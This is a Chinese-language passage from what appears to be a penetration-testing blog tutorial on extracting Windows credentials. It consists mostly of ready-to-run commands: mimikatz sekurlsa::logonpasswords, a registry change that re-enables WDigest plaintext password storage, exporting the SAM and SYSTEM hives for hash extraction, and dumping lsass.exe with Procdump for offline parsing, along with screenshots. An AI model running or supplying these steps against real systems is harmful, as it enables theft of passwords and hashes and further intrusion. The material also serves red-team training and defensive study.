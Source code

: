 ### 本地执行
下载mimikatz，使用管理员运行

```
#提升权限
privilege::debug
#抓取密码
sekurlsa::logonpasswords
```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-27/04.png)

当目标为win10或2012R2以上时，默认在内存缓存中禁止保存明文密码，但可以通过修改注册表的方式抓取明文。

cmd修改注册表命令：

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```
### SAM表获取hash

```
#导出SAM数据
reg save HKLM\SYSTEM SYSTEM
reg save HKLM\SAM SAM

#使用mimikatz提取hash
lsadump::sam /sam:SAM /system:SYSTEM
```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-27/05.png)
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-27/06.png)

### Procdump+Mimikatz
当mimikatz无法在主机上运行时，可以使用微软官方发布的工具Procdump导出lsass.exe:

下载地址：

```
https://download.sysinternals.com/files/Procdump.zip
```
运行Procdump导出lsass.exe，将lsass.dmp下载到本地后，然后执行mimikatz:

```
procdump64.exe -accepteula -ma lsass.exe lsass.dmp

mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
```

![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-27/07.png)
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-27/08.png)


为了方便复制与查看，可以输出到本地文件里面：
